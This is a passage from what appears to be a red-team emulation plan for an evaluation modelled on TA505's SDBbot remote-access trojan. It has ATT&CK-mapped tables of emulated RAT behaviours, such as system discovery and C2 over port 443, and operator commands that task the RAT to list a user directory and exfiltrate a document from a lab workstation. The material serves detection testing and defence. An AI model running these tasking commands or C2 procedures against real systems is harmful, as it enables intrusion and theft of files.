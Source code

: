 | SDBbot RAT discovers country code via GetUserGeoID and GetGeoInfoW | [core.cpp](../Resources/sdbbot/src/rat/core.cpp#L11) | T1082 System Information Discovery | [Proofpoint - 2019](https://www.proofpoint.com/us/threat-insight/post/ta505-distributes-new-sdbbot-remote-access-trojan-get2-downloader)<br>[IBM X-Force - 2020](https://securityintelligence.com/posts/ta505-continues-to-infect-networks-with-sdbbot-rat/) |
| SDBbot RAT discovers the Windows version via rtlGetVersion | [core.cpp](../Resources/sdbbot/src/rat/core.cpp#L63) | T1082 System Information Discovery | [Proofpoint - 2019](https://www.proofpoint.com/us/threat-insight/post/ta505-distributes-new-sdbbot-remote-access-trojan-get2-downloader)<br>[IBM X-Force - 2020](https://securityintelligence.com/posts/ta505-continues-to-infect-networks-with-sdbbot-rat/) |
| SDBbot RAT connects to the C2 server over TCP port 443 | [comms.cpp](../Resources/sdbbot/src/rat/comms.cpp#L85) | T1095 Non-Application Layer Protocol | [Proofpoint - 2019](https://www.proofpoint.com/us/threat-insight/post/ta505-distributes-new-sdbbot-remote-access-trojan-get2-downloader)<br>[IBM X-Force - 2020](https://securityintelligence.com/posts/ta505-continues-to-infect-networks-with-sdbbot-rat/) |

## Step 3 - Discovery and Exfiltration (Evaluation Step 7)

### :microphone: Voice Track

The attacker will then use SDBbot to discover and exfiltrate files of interest
from the workstation.

### :biohazard: Procedures

* Task the SDBbot RAT to enumerate a user directory before exfiltrating files

    ```bash
    ./evalsC2client.py --set-task 0x0000000F '{"id":"execute", "arg":"dir C:\\users\\"}'
    ```

* Task the SDBbot RAT to exfiltrate files

    ```bash
    ./evalsC2client.py --set-task 0x0000000F '{"id":"read", "arg":"C:\\Users\\griphook\\Desktop\\Findings_reZGaJ.doc"}'
    ```

* :camera: Confirm and screenshot the successful file download from the C2 server output.

### :mag: Reference Code & Reporting

> :information_source: **NOTE:** Not all techniques listed in this table
directly map to evaluation substeps

| Red Team Activity | Source Code Link | ATT&CK Technique | Relevant CTI Report |
| ----------------- | ---------------- | ---------------- | ------------------- |
| SDBbot RAT executes dir | [core.cpp](../Resources/sdbbot/src/rat/core.cpp#L218) | T1083 File and Directory Discovery | - |
| SDBbot RAT exfiltrates files | [core.cpp](../Resources/sdbbot/src/rat/core.cpp#L272) | T1041 Exfiltration Over C2 Channel | [Cybereason - 2020](https://www.cybereason.com/blog/research/cybereason-vs.-clop-ransomware) |

---

### :loud_sound: Noise Step

* :exclamation: Notify your Threat Hunter that you are starting execution of the
Detections manual noise step

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, watch the RDP
session to the Windows victim workstation `vault713 (10.55.3.100)` as
`encryptpotter.net\ranrok`. If GHOSTS is currently performing actions or in the
middle of a timeline, wait for it to finish. Then click into the RDP session and
you'll have a brief window to do the following.
